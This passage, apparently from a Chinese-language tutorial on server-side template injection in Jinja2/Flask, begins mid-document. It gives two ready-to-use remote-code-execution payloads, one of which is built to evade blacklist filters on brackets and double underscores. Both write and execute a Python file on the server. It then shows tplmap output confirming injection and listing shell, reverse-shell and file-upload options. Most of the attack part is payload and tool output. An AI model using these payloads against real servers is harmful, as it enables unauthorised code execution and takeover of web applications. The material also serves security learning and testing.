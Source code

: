 ##### **无敌绕过的最终RCE**

绕过`[`，`]`检查，但不绕过`__`检查 使用该`set`函数来访问必需的`object（i）`类 `pop()`将检索file对象，然后使用我们的已知参数调用该对象 与初始RCE相似，这将创建一个python文件`/tmp/foo.py`并执行`print 1337`有效负载

```javascript
{%set%20a,b,c,d,e,f,g,h,i%20=%20request.__class__.__mro__%}{{i.__subclasses__().pop(40)(request.args.file,request.args.write).write(request.args.payload)}}{{config.from_pyfile(request.args.file)}}&file=/tmp/foo.py&write=w&payload=print+1337
```

绕过所有黑名单检查的最终RCE （真牛逼）

```javascript
{%set%20a,b,c,d,e,f,g,h,i%20=%20request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)|attr((request.args.usc*2,request.args.mro,request.args.usc*2)|join)%}{{(i|attr((request.args.usc*2,request.args.subc,request.args.usc*2)|join)()).pop(40)(request.args.file,request.args.write).write(request.args.payload)}}{{config.from_pyfile(request.args.file)}}&class=class&mro=mro&subc=subclasses&usc=_&file=/tmp/foo.py&write=w&payload=print+1337
```

### **8、神器tplmap**

github 需要环境：PyYaml

例子

```javascript
root@kali:/mnt/hgfs/共享文件夹/tplmap-master# python tplmap.py -u "http://192.168.1.10:8000/?name=Sea"                             //判断是否是注入点
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name                //说明可以注入，同时给出了详细信息
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

   Shell command execution: ok           //检验出这些利用方法对于目标环境是否可用
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Rerun tplmap providing one of the following options:
                                                                  //可以利用下面这些参数进行进一步的操作
    --os-shell        Run shell on the target
    --os-cmd        Execute shell commands
    --bind-shell PORT      Connect to a shell bind to a target port
    --reverse-shell HOST PORT  Send a shell back to the attacker's port
    --upload LOCAL REMOTE  Upload files to the server
```